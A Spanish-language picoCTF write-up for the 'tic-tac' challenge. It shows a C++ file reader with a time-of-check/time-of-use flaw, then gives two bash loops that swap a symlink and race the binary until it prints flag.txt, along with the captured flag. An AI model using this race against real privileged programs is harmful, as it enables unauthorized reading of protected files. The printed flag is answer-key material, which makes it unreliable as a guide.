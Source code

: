 # tic-tac

En este ejercicio nos dan las credenciales a una shell con un binario.

El binario tiene el siguiente código:

```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

Podemos ver que el programa imprime la un archivo (en este caso queremos que sea flag) por pantalla si llegamos hasta la parte final del código. Lo que pasa es que hay una condición que comprueba si somos el dueño del archivo y si no cierra el programa. Para poder solucionar este ejercicio tenemos que bypassear esa condición. Para eso podemos hacer lo siguiente:

Primero, cuando el flujo del programa esté comprobando quien es el dueño mandarle un archivo en donde seamos dueños. Segundo cuando acabe de comprobar, antes de que imprima el archivo que le pasemos, cambiar a flag.txt. Podemos hacer esto creando 2 scripts que estén en un bucle infinito y usando enlaces simbólicos de la siguiente forma:

```bash
# Script 1

while true; do
    ln -sf ./hola.txt enlace
    ln -sf ./flag.txt enlace
done
```

Este intercambia todo el rato el enlace intercambiándolo entre nuestro archivo y el real.

> Hay que crear de antemano el archivo hola.txt

```bash
# Script 2

while true; do
    ./txtreader enlace
done
```

Este ejecuta todo el rato el binario pasándole el enlace que va cambiando.

Eventualmente en alguna ejecución cuadrará en el momento justo el intercambio, consiguiendo así la flag:

```c
./ejecutar_programa.sh 
. . .
Error: you don't own this file
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_a5726c65}
Error: you don't own this file
Error: you don't own this file
. . .
```

Gracias por leer!
